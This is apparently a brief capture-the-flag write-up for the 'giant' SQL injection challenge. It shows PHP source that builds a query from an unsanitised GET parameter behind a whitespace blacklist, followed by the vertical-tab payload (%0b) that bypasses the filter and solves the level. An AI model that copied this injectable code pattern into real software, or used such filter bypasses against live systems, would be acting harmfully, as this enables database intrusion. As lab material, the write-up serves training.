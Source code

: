 ```
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(strlen($_GET[shit])>1) exit("No Hack ~_~"); 
  if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe"); 
  $query = "select 1234 from{$_GET[shit]}prob_giant where 1"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result[1234]) solve("giant"); 
  highlight_file(__FILE__); 
?>

```
BLACKLIST: '/ |\n|\r|\t/i'

PAYLOAD : ?shit=%0b
OUTPUT: select 1234 fromprob_giant where 1

Giant clear
